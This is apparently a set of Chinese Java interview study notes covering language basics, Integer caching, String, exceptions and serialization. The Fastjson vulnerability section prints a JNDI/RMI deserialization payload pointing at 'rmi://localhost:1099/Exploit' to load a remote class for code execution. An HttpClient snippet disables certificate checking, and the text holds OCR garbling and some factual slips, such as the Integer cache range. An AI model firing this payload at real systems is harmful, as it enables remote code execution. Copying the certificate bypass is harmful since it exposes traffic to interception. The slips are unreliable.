

## 语言特点
* 面向对象和面向过程对比。
    * 面向过程 性能好。
    * 面向对象 容易写出低耦合的代码。利于维护和扩展、复用
* 面向对象的4大特性 封装 继承 多态 抽象
    * 封装：把对象的属性私有化。同时提供一些可以让外界访问属性的方法。 对外屏蔽细节 可控
    * 继承：使用已存在的类作为基础创建新类。新类可以增加新的数据和功能 又能够使用一些父类的功能
    * 多态：在编译时不确定 在运行时确定类型
* Java语言的特点。简单易学  适合大型项目 多人协作  强类型  千人一面。 利于维护。 平台无关性  Write once, run anywhere 。可靠性 安全性 解决方案多。 开源社区活跃。
* JVM（ Java virtual machine）是运行Java字节码的虚拟机。
在一定程度上解决了传统解释型语言执行效率低的问题。同时又保留了解释型语言可移植的特点
* JDK是Java Development Kit，  java sdk 包括 jre和 一些java命令行工具。 JRE是Java运行时环境
* Oracle JDK 和Open JDK的区别。

协议不同。 Open JDK 是开源的 不完整 。大厂都有自己的Open JDK来避免Oracle JDK收费带来的风险
* Java 和C++的区别。

C++可以直接使用指针操作内存。响应的也比较晦涩难懂。 Java 有自己的内存管理机制 不需要自己释放内存。相对简单还是 灵活性相对较差
* 字符型常量和字符串常量的区别  char 和String  一个单引号 一个双引号   char 2个字节 可以参与运算

## 变量 方法 构造函数
* 装箱 把基本类型转换成 对应的包装类型。 拆箱  包装类型转成基本数据类型  容易NPE
* 成员变量和局部变量的区别
    * 语法形式上： 成员变量属于类 可以被 private public static 等修饰符修饰 而局部变量不行。 但是都可以被final修饰
    * 存储上：     成员变量是对象的一部分。对象存在于堆内存。 局部变量存在于栈内存
    * 生存时间：   局部变量随着方法的调用结束而结束
    * 成员变量     未被显式赋值可以有默认值（有final修饰符的必须显式赋值）。 局部变量必须显式赋值
* 构造方法的作用
完成对类对象的初始化 不显示声明也有默认的构造方法   名称与类名相同 没有返回值 生成类对象时自动执行
    在执行子类的构造方法之前，如果没有用 super 来调用父类特定的构造方法，则会调用父类中**没有参数的构造方法**。
* 静态方法和实例方法
静态方法可以用 类.方法调用 无需创建对象。静态方法在访问本类成员时，只允许访问静态成员(静态成员变量和静态方法)

## 关键字
* this 引用类的当前实例 super 用于从子类访问父类的变量和方法
* final关键字 变量 不可更改 类 不可被继承  方法 不可被继承类修改
* static  
    * 修饰成员变量和成员方法  类名.静态变量名 类名.静态方法名
    * 静态代码块  执行顺序(静态代码块->非静态代码块->构造方法) 静态代码块只会在类加载的时候执行一次
    * 静态内部类(static修饰类的话只能修饰内部类)
    * 静态导包 import static

* final 原理

注：最好先理解java内存模型，后期专门开专题讲解
对于final域，编译器和处理器要遵守两个重排序规则：

1.在构造函数内对一个final域的写入，与随后把这个被构造对象的引用赋值给一个引用变量，这两个操作之间不能重排序。

　　（先写入final变量，后调用该对象引用）

　　原因：编译器会在final域的写之后，插入一个StoreStore屏障

2.初次读一个包含final域的对象的引用，与随后初次读这个final域，这两个操作之间不能重排序。

　　（先读对象的引用，后读final变量）

　　编译器会在读final域操作的前面插入一个LoadLoad屏障
## 重载 and 重写
* 重载和重写的区别
    * 重写：发生在父子类中 方法名和参数列表必须相同。返回值返回小于等于父类 抛出异常范围小于等于父类 访问修饰符范围大于等于父类 private 不能重写
    * 重载： 一个类中。 方法名一样 参数列表不一样 返回值和访问修饰符可以不同 发生在编译时期

## equals hashCode
* 对象的相等比的是内存中存放的内容是否相等。而引用相等比较的是指向的内存地址是否相等
* == 比较的是内存地址 equals() 1 未覆盖equals()方法 等价于==  2. 覆盖 来比较对象的内容是否相等。
    ```java
     String a = new String("ab"); // a 为一个引用
     String b = new String("ab"); // b为另一个引用,对象的内容一样
     String aa = "ab"; // 放在常量池中
     String bb = "ab"; // 从常量池中查找```
     a!=b  aa==bb    a b  aa bb equals 都相等
    ```
* hashCode 和equals
    * hashCode  哈希 散列  目的是为了 快速查找 确定对象位置。
    * hashCode 来检查 重复  向hashSet 里面添加元素 先比较 hashcode  hashcode 一样 在进行equals  (减少equals 次数 来)

    从Object角度看，JVM每new一个Object，它都会将这个Object丢到一个Hash表中去，这样的话，下次做Object的比较或者取这个对象的时候（读取过程），它会根据   对象的HashCode再从Hash表中取这个对象。这样做的目的是提高取对象的效率。若HashCode相同再去调用equal。
    集合要添加新的元素时，先调用这个元素的HashCode方法，就一下子能定位到它应该放置的物理位置上。   
    （1）如果这个位置上没有元素，它就可以直接存储在这个位置上，不用再进行任何比较了；     
    （2）如果这个位置上已经有元素了，就调用它的equals方法与新元素进行比较，相同的话就不存了；    
    （3）不相同的话，也就是发生了Hash key相同导致冲突的情况，那么就在这个Hash key的地方产生一个链表，将所有产生相同HashCode的对象放到这个单链表上去，串在一起（很少出现）。这样一来实际调用equals方法的次数就大大降低了，几乎只需要一两次。

    1. 如果两个对象相同， equals方法一定返回true，并且这两个对象的HashCode一定相同；    
    1. 两个对象的HashCode相同，并不一定表示两个对象就相同，即equals()不一定为true，只能够说明这两个对象在一个散列存储结构中。

## 解决哈希冲突的方法

* 链地址法（拉链法）
* 再哈希法 
* 线行探查法  从该槽位置向后循环遍历hash表，直到找到表中的下一个空槽，并将该元素放入该槽中（会导致相同hash值的元素挨在一起和其他hash值对应的槽被占用）
* 平方探查法
* 双散列函数探查法
* 开放定址法
* 建立公共溢出区

## 基本数据类型

## 类型转换


数据库的查询结果可能是 null，因为自动拆箱，用基本数据类型接收有 NPE 风险。

```java
   Integer a2=null;
        int b2=a2;
```

```java
Exception in thread "main" java.lang.NullPointerException
	at xyz.mosss.spring.examples.springboot.a.LockDemo.main(LockDemo.java:50)
```

## Integer

Integer中把-128到127
```java
Integer a = 1000,b=1000;   
Integer c = 100,d=100; 
System.out.println(a==b);  //false
System.out.println(c==d); true
```
//本质 调用valueOf
```java
public static Integer valueOf(int i) {  
    return  i >= 128 || i < -128 ? new Integer(i) : 
    SMALL_VALUES[i + 128];  
}  

private static final Integer[] SMALL_VALUES = new Integer[256];  

static {  
    for (int i = -128; i < 128; i++) {  
        SMALL_VALUES[i + 128] = new Integer(i);  
    }  
}
```
```java
Integer a = new Integer(1000);  
int b = 1000;  
Integer c = new Integer(10);  
Integer d = new Integer(10);  
System.out.println(a == b);   //true  因为自动拆箱 比较的是值
System.out.println(c == d);   //false  ==对象比较的是地址

```

```java
Integer a=NUll;
int b=a  //自动拆箱 NPE       a.vauleof()
```

**Integer和int**

```Java
Integer a = 3;
//等同于
Integer a= Integer.valueOf(3);
```

Integer源码

```java
        static final int low = -128;
        static final int high;
        static final Integer cache[];

        static {
            // high value may be configured by property
            int h = 127;
            String integerCacheHighPropValue =
                sun.misc.VM.getSavedProperty("java.lang.Integer.IntegerCache.high");
            if (integerCacheHighPropValue != null) {
                try {
                    int i = parseInt(integerCacheHighPropValue);
                    i = Math.max(i, 127);
                    // Maximum array size is Integer.MAX_VALUE
                    h = Math.min(i, Integer.MAX_VALUE - (-low) -1);
                } catch( NumberFormatException nfe) {
                    // If the property cannot be parsed into an int, ignore it.
                }
            }
            high = h;    
		public static Integer valueOf(int i) {
        if (i >= IntegerCache.low && i <= IntegerCache.high)
            return IntegerCache.cache[i + (-IntegerCache.low)];
        return new Integer(i);
    }
          
    public boolean equals(Object obj) {
        if (obj instanceof Integer) {
            return value == ((Integer)obj).intValue();
        }
        return false;
    }
```

Integer默认会缓存`-127~128`范围的数字。 最大值也可以通过JVM数`java.lang.Integer.IntegerCache.high`设置。

```java
        int a=1;
        int b=3;
        System.out.println(a==b);
				//报错
        System.out.println(a.equals(b));
```

* int 和 int 比较   只能使用`==`

  

```java
        Integer a = 123;
        Integer b = 123;
        System.out.println(a==b);
        System.out.println(a.equals(b));
```

* 包装类型 使用 `==` 比较  如果值在-128和127之间，结果为true，否则为false
* 两个包装类在进行`equals`比较时，首先会用`equals`方法判断其类型，如果类型相同，再继续比较值，如果值也相同，则结果为true


```java
        Integer a = 123;
        int b = 23;
        System.out.println(a.equals(b));
        System.out.println(a==b);
```

* Integer 和 int 比较时候。使用`equals` int 会自动装箱
* 使用`==` integer 会自动拆箱


> 对于比较相关问题。 一般只有引用类型 `==` 会产生疑问。 对于引用类型 `==`或者没有重写`equals`方法时  比较的都是 对象的地址。 因为Integer 或者String 有缓存机制。 所以== 在缓存范围内会相等。对于`new`一个对象。地址就不一样了。

## 浮点型

```java
double a1=1.0;
double b1=0.9;
System.out.println(a1-b1);//0.09999999999999998
BigDecimal bigDecimal = new BigDecimal(0.9);
BigDecimal bigDecimal1 = new BigDecimal(0.1);
System.out.println(bigDecimal.subtract(bigDecimal1));//0.8000000000000000166533453693773481063544750213623046875

BigDecimal bigDecimal2 = new BigDecimal("0.9");
BigDecimal bigDecimal3 = new BigDecimal("0.1");
System.out.println(bigDecimal2.subtract(bigDecimal3));//0.8

BigDecimal bigDecimal4 = BigDecimal.valueOf(0.9);
BigDecimal bigDecimal5 = BigDecimal.valueOf(0.1);
System.out.println(bigDecimal4.subtract(bigDecimal5));//0.8
```

**，有个原则：**

- - **程序中应尽量避免浮点数的比较**
  - **float、double类型的运算往往都不准确**

**如果需要精确计算，非要用String来够造BigDecimal不可**！

[用 float 存储金额，老板说损失从工资里扣！](https://mp.weixin.qq.com/s/EenSCVhkb0RnuP3EsbFdow)

## String StringBuilder StringBuffer

* String StringBuilder  StringBuffer
    1. 可变性。    
    String类是使用 final关键词的字符数据来保存字符串 private  final char[]  其他两个都是继承AbstractStringBuilder 里面不带final的
    1. 线程安全性。   
    String因为是不可变的 所以是线程安全的 StringBuffer 加了同步锁 也是线程安全的
    1. 性能    
    每次对String类型的对象进行更改都会生成新的对象。 其他两个都是对自身进行操作。不会生成新的对象
     **综合**    
    少量数据用String  单线程大量用StringBuilder 多线程大量用StringBuffer

* String 对象的两种创建方式

```java
String str1 = "abcd";
String str2 = new String("abcd");
System.out.println(str1==str2);//false
```
这两种不同的创建方法是有差别的，第一种方式是在常量池中拿对象，第二种方式是直接在堆内存空间创建一个新的对象。

注：只要使用new方法，便需要创建新的对象。

* String s1 = new String("abc");这句话创建了几个对象？

```java
        String s1 = new String("abc");// 堆内存的地址值
        String s2 = "abc";
        System.out.println(s1 == s2);// 输出false,因为一个是堆内存，一个是常量池的内存，故两者是不同的。
        System.out.println(s1.equals(s2));// 输出true
```

先有字符串"abc"放入常量池，然后 new 了一份字符串"abc"放入Java堆(字符串常量"abc"在编译期就已经确定放入常量池，而 Java 堆上的"abc"是在运行期初始化阶段才确定)，然后 Java 栈的 str1 指向Java堆上的"abc"。

String 提供的 intern 方法。`String.intern()` 是一个 Native 方法，它的作用是：如果运行时常量池中已经包含一个等于此 String 对象内容的字符串，则返回常量池中该字符串的引用；如果没有，则在常量池中创建与此 String 内容相同的字符串，并返回常量池中创建的字符串的引用。

## 类变量


## 接口 抽象类

* 接口和抽象类有什么区别
    * 相同的：都不能被实例化
    * 不同点：
        * 类可以多实现 只能单继承    
        * 接口强调了是功能的实现 。抽象类强调的是从属关系  
        * 抽象是对类的抽象是一种模板设计，接口是行为的抽象 是一种行为的规范
        * 某些场合下，只靠纯粹的接口不能满足类和类之间的协调，还需要类中表示状态的变量来区别不同的关系。抽象类可以很好的做到这一点
           定义的接口。 但是有些接口 是共同的 和状态不关 可以共享 无需子类分别实现

## 异常体系
* JAVA异常体系：
    Throwable - Error    OutOfMemoryError
              - Exception  -RuntimeException  - NPE  数组越界  算术异常
                           -IOException
    异常能够程序本身处理，但是错误无法被处理

    finally: 无论是否捕获或处理异常,finally都会被执行 ，当在try或者catch块中 遇到return语句时 先执行finally 再return
* transient 修饰不参与序列化
* 获取键盘输入 Scanner  BufferReader （BufferedReader input = new BufferedReader(new InputStreamReader(System.in));
）

## JAVA 网络编程

* InetAddress
* Url
* TCP  `ServerSocket` accept() `Socket`
* UDP 无连接  `DatagramPacket` 数据报 `DatagramSocket` receive()  send()
* HttpClient 几个超时时间配置
```java
RequestConfig config = RequestConfig.custom()
                .setConnectionRequestTimeout(10000)//连接池获取可用连接超时
                .setConnectTimeout(10000)//连接超时
                .setSocketTimeout(30000)//响应超时（读取数据超时）
```
```java
  HttpClientBuilder builder = HttpClientBuilder.create()
                .setDefaultRequestConfig(config)
                .setRetryHandler(new StandardHttpRequestRetryHandler())
                //大多数HTTP连接都被认为是持久的。但是，为了节省服务器资源，连接很少永远保持打开，许多服务器的默认连接超时相当短，例如Apache httpd 2.2及更高版本的5秒。
                //Http客户端池中设置保持未使用连接打开的最长时间
                .setConnectionTimeToLive(1000, TimeUnit.MILLISECONDS)
                //忽略证书
                .setSSLSocketFactory(socketFactory);
```

## JDK自带的工具

* jstack [pid] 查询线程信息
* javap -v 类名  查看字节码
* jad 反编译
* jmap 生成dump信息 查看dump 信息


* 


## 序列化

内存中的数据对象只有转换为二进制流才可以进行数据持久化和网络传输。将数

据对象转换为二进制流的过程称为对象的序列化（ Serialization ）。反之，将二进制流

恢复为数据对象的过程称为反序列化（ Deserialization ）。序列化需要保留充分的信息

以恢复数据对象，但是为了节约存储空间和网络带宽，序列化后的二进制流又要尽可

能小。序列化常见的使用场景是盯 框架的数据传输。常见的序列化方式有三种


1.  Java 原生序列化 

使用 Java 原生序列化需注意， Java 反序歹lj 化时不会调用类的无参构造方法，而

是调用 native 方法将成员变量赋值为对应类型的初始值。基于性能及兼容性考虑，不

推荐使用 Java 原生序歹lj 化。

2.  Hessian 序歹lj 化。

相比 Hessian 1.0, Hessian 2.0 中增加了压缩编码，其序列化二进制流大小是 Java

序列化的 50% 序列化耗时是 Java 序列化的 30 ，反序列化耗时是 Java 反序列化的

20%

3. JSON序列化

4. 其他

   专门针对Java语言的：Kryo，FST等等

   跨语言的：Protostuff，ProtoBuf，Thrift，Avro，MsgPack等等

我们知道，**反序列化必须拥有class文件，但随着项目的升级，class文件也会升级，序列化怎么保证升级前后的兼容性呢？**

java序列化提供了一个private static final long serialVersionUID 的序列化版本号，只有版本号相同，即使更改了序列化属性，对象也可以正确被反序列化回来。

```java
public class Person implements Serializable {
    //序列化版本号
    private static final long serialVersionUID = 1111013L;
    private String name;
    private int age;
    //省略构造方法及get,set
}

```

如果反序列化使用的**class的版本号**与序列化时使用的**不一致**，反序列化会**报InvalidClassException异常。**



**序列化版本号可自由指定，如果不指定，JVM会根据类信息自己计算一个版本号，这样随着class的升级，就无法正确反序列化；不指定版本号另一个明显隐患是，不利于jvm间的移植，可能class文件没有更改，但不同jvm可能计算的规则不一样，这样也会导致无法反序列化。**


序列化类新增属性时，请不要修改 serialVersionUID 字段，避免反序列失败；如果

完全不兼容升级，避免反序列化混乱，那么请修改 serialVersionUID 值。

说明：注意 serialVersionUID 不一致会抛出序列化运行时异常。


什么情况下需要修改serialVersionUID呢？分三种情况。

- 如果只是修改了方法，反序列化不容影响，则无需修改版本号；
- 如果只是修改了静态变量，瞬态变量（transient修饰的变量），反序列化不受影响，无需修改版本号；
- 如果修改了非瞬态变量，则可能导致反序列化失败。**如果新类中实例变量的类型与序列化时类的类型不一致，则会反序列化失败，这时候需要更改serialVersionUID。**如果只是新增了实例变量，则反序列化回来新增的是默认值；如果减少了实例变量，反序列化时会忽略掉减少的实例变量。

**总结**

所有需要网络传输的对象都需要实现序列化接口，通过建议所有的javaBean都实现Serializable接口。

对象的类名、实例变量（包括基本类型，数组，对其他对象的引用）都会被序列化；方法、类变量、transient实例变量都不会被序列化。

如果想让某个变量不被序列化，使用transient修饰。

序列化对象的引用类型成员变量，也必须是可序列化的，否则，会报错。

反序列化时必须有序列化对象的class文件。

当通过文件、网络来读取序列化后的对象时，必须按照实际写入的顺序读取。

单例类序列化，需要重写readResolve()方法；否则会破坏单例原则。

同一对象序列化多次，只有第一次序列化为二进制流，以后都只是保存序列化编号，不会重复序列化。

建议所有可序列化的类加上serialVersionUID 版本号，方便项目升级。


序歹lj 化通常会通过网络传输对象 而对象中往往有敏感数据，所以序列化常常

成为黑客的攻击点，攻击者巧妙地利用反序列化过程构造恶意代码，使得程序在反序

列化的过程中执行任意代码。 Java 工程中广泛使用的 pache Commons Collections

Jackson fastjson 等都出现过反序列化漏洞。如何防范这种黑客攻击呢？有些对象的

敏感属性不需要进行序列化传输 ，可以加 `transient` 关键字，避免把此属性信息转化为

序列化的二进制流。如果一定要传递对象的敏感属性，可以使用对称与非对称加密方

式独立传输，再使用某个方法把属性还原到对象中。应用开发者对序列化要有一定的

安全防范意识 对传入数据的内容进行校验或权限控制，及时更新安全漏洞，避免受

到攻击。

### Fastjson反序列化漏洞

[Fastjson反序列化漏洞 1.2.24-1.2.48(https://www.kingkk.com/2019/07/Fastjson反序列化漏洞-1-2-24-1-2-48/)](https://www.kingkk.com/2019/07/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-1-2-24-1-2-48/)

[https://zhuanlan.zhihu.com/p/99075925](https://zhuanlan.zhihu.com/p/99075925)

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```

当远程rmi服务找不到对应方法时，可以指定一个远程class让请求方去调用，从而去获取我们恶意构造的class文件，从而RCE。

类似于Jackson，Fastjson中也支持指定类的反序列化，只需要在json的key中添加`@type`即可。

**反序列化** **`@type`** **指定的类时，指定类的** **`setter`** **或** **`getter`** **被调用导致的命令执行。**


措施

enable_autotype 默认关闭

维护黑名单  checkAutoType  这个函数的主要功能就是添加了黑名单，将一些常用的反序列化利用库都添加到黑名单中。

hash黑名单


## 修饰符

### 按照位置划分

#### 类修饰符

* public

* 默认修饰符friendly  （不写）

* abstract 抽象类

* final 不能被继承

  

#### 成员变量修饰符

* public 

* protected  子类 以及同包能访问    意味着 子类只能使用this去访问

* 默认    同包能访问

* private

* final  只能赋值一次

  final 修饰成员变量必须要显示复制 否则会报错

  * 静态成员变量（类变量）有2个赋值时机
    1. 声明时赋值
    2. 静态代码块赋值
  * 实例变量有3个赋值时机
    1. 声明时赋值
    2. 普通代码块赋值
    3. 构造函数赋值

  **当final修饰基本数据类型变量时，不能对基本数据类型变量重新赋值，因此基本数据类型变量不能被改变。而对于引用类型变量而言，它仅仅保存的是一个引用，final只保证这个引用类型变量所引用的地址不会发生改变，即一直引用这个对象，但这个对象属性是可以改变的**。

  

* volatile 可见性

#### 构造函数修饰符

* public （最常用，其他类的任何位置都可以访问）         

* protected（能够在同一包中被子类访问）

* 什么都不写，""(能够被同一包里的类访问)

*  private（经常使用的单例模式中）不能在别的类进行实例化

#### 方法修饰符

* final

  

* static
* synchronize
* native，本地修饰符。指定此方法的方法体是用其他语言在程序外部编写的。

### 按照功能划分


### 参考资料


> 　　protected是最难理解的一种Java类成员访问权限修饰词。在编程中，碰到涉及protected的调用时，首先要确定出该protected成员来自何方，其可见性范围是什么，然后就正确无误的使用了。
>
> https://blog.csdn.net/justloveyou_/article/details/61672133


> [final关键字全面解析](https://www.jianshu.com/p/1f4b0f98cbf1)


## 内部类

